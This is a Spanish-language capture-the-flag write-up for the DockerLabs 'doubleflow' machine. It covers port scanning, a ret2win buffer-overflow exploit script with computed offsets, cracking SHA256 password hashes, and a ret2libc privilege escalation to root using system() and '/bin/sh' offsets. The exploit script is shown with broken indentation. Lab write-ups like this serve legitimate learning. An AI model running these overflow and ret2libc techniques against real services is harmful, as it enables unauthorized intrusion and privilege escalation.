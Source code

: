 nmap: 80,22,39817

![image](https://github.com/user-attachments/assets/54f701a3-20af-4648-99dc-0d7c5ec12fcf)

---
en la pagina aparece "esta pagina no puede ser hackeada"
y si entramos por el puerto 39817, 

nos aparece: contraseña: Denegado

![image](https://github.com/user-attachments/assets/2cf50a40-fba4-402c-aceb-34b2284bfa50)

si hacemos un gobuster no aparece:

     - app1

Nos descarga un binario
le damos los permisos y ejecutamos, ahora nos conectamos
> ./app1

![image](https://github.com/user-attachments/assets/8c5fdd84-6725-473a-91ad-857f3bc35f50)

en nuestra terminal conectamos:
 
    telnet 127.0.0.1 17562
    
 y nos pedirá escribir algo, y al colocar cualquier cosa se cerrara.

intentare probar si es posible un overflow generandolo:
seguimos los pasos: https://github.com/4bytess/pattern_generator

      -python3 patter.py -m generate -v 50

nos dio: a00a01a02a03a04a05a06a07a08a10a11a12a13a14a15a16a1

![image](https://github.com/user-attachments/assets/63783b1f-22e5-4991-bd51-40d7f774cfd9)

lanzaremos el mismo comando pero con 500 y volvemos a intentar saturar. 

![[dockerlabs/dificil/doubleflow/test6.png]]

entonces se satura como vemos. 

ahora lanzamos: 

>  python3 pattern.py -m offset -v b14b15b1

nos da: offset: 282

![[dockerlabs/dificil/doubleflow/test5.png]]

lanzamos: 

     gdb -q app1 

y volvemos a lanzar los 500 que nos dio y nos dará un valor. 

![[dockerlabs/dificil/doubleflow/test7.png]]

entonces nos da el valor: 0x000000000040142b
lanzamos ahí mismo un: ret
y nos dará: 0x3262363262353262

nos mostrara la seguridad que tiene el binario
y aparece: NX Enabled

Vemos que solo tiene NX. No tiene canarios ni PIE, es decir que podemos sobrescribir el stack pero no ejecutar shellcode en el stack. Además las direcciones del código del binario son estáticas, por lo que se puede hacer un buffer overflow de tipo ret2win, en donde sobrescribimos el EIP con la dirección de una función que existe en el binario que nunca se llama de por sí 

ahora abrimos otra vez

> gdb app1

y lanzamos: info functions

hay uno llamado "secret function", lo que intentare hacer un overflow hacia ese archivo en especifico.


entonces con el valor que obtuvimos lo pasamos al valor ASCII así: 

     echo "3262363262353262" | xxd -r -p

Nos queda el valor de: b25b26b2

![[dockerlabs/dificil/doubleflow/test8.png]]

ahora lanzamos:
> python3 pattern.py -m offset -v b25b26b2

nos da: offset: 312

![[dockerlabs/dificil/doubleflow/test9.png]]

ahora modificamos un código que vaya hacia la carpeta o archivo "secret function".

---
#!/usr/bin/python3

from pwn import p64
import socket


payload = b'A' * 312 + p64(0x00000000004011b6)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 17562))  # Dirección y puerto del servicio
    print("[+] Conexión establecida con el servicio")

    
banner = sock.recv(1024)
print(f"[+] Banner recibido: {banner.decode(errors='ignore')}")

sock.send(payload + b'\r\n')
print("[+] Payload enviado")

except ConnectionRefusedError:
    print("[-] No se pudo conectar al servicio. Verifica que el servicio está activo.")
except Exception as e:
    print(f"[-] Error: {e}")

finally:
    # Cerramos el socket
    sock.close()
    print("[+] Conexión cerrada")

---

lo lanzamos: python3 exploit.py y dejamos en escucha "./app1" 
al lanzarlo nos da:

>02e5e6ea15b5d3088af6edf49269a7221eb88dc32747420dc2e482110f649deb

![[dockerlabs/dificil/doubleflow/test10.png]]

esta en sha256 ahora lo mandamos a: https://crackstation.net/
y nos da: tiggerjake

![[dockerlabs/dificil/doubleflow/test11.png]]

ahora nos conectamos por el puerto 39817

telnet 172.17.0.2 39817 colocamos la contraseña y nos 

 ![[dockerlabs/dificil/doubleflow/test12.png]]

lo pasamos otra vez por la pagina por el sha256 y nos da:

    plasticfloor17

![[dockerlabs/dificil/doubleflow/test13.png]]

entramos al usuario pepe por el puerto 22

![[dockerlabs/dificil/doubleflow/test14.png]]

vemos que dentro de pepe hay dos app mas

    - app2 y 3

igual que con el app1 solo tiene protección NX, o sea que no podemos ejecutar shellcodes
al listar las funciones que tiene definidas el binario, solo esta la función main, por lo que no se podría hacer un ret2win, pero al ejecutar ldd ./app3 en la maquina victima, vemos que la dirección base de libc.so.6 es siempre la misma. por lo que no hay ASLR. así que es mas fácil atacar a "ret2libc" o sea hacer un ataque buffer overflow y llamar la función "system()" y como parámetro "/bin/sh". 

lanzamos:
>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"

y nos da:
> 1023: 000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5

para sacar el offset de la cadena "/bin/sh", ejecutamos:
> strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"

y nos da: 
>196031 /bin/sh

![[dockerlabs/dificil/doubleflow/test15.png]]

Ahora ya tenemos los offsets de system() y "/bin/sh". Pero si queremos pasar "/bin/sh" como parámetro a system() en el buffer overflow, tenemos que meter en el registro RDI un puntero a la cadena "/bin/sh" y para meter ese valor en RDI necesitamos encontrar dentro del binario app3 una instrucción pop rdi, para meter un valor del stack en el RDI. 

entonces nos pasamos el "app3" a nuestra terminal y probamos con gdb. 
entonces ejecutamos 

     gdb -q app3 

y les escribimos alguna letra para que de el mismo error:

![[dockerlabs/dificil/doubleflow/test16.png]]

nos dio: 

     0x0000000000401189
     0x4141414141414141

entonces queda ver que protección tiene, aqui se busca el valor de ASRL si se encuentra habilitado. 

![[dockerlabs/dificil/doubleflow/test17.png]]

contiene 0  o sea que esta deshabilitada. aunque contiene la NX activa que es lo mismo que la anterior. 

tomamos o creamos un código python que nos sirva como exploit.  y el código se basara para este código que nos entrega la app3

![[dockerlabs/dificil/doubleflow/test18.png]]


La dirección de retorno vale 0x3235613135613035. Para pasarlo a texto hacemos `unhex 3235613135613035 | rev`. que es cambiarlo a valor ASCII Sale que es 50a51a52. Entonces hacemos `pattern.py -m offset -v 50a51a52` y nos dice que el offset es 136.

entonces como nombre, tomaremos un código python o se creara uno ahora ejecutamos el exploit en la máquina víctima en el directorio /home/pepe:

![[dockerlabs/dificil/doubleflow/test19.png]]

y somos root! 
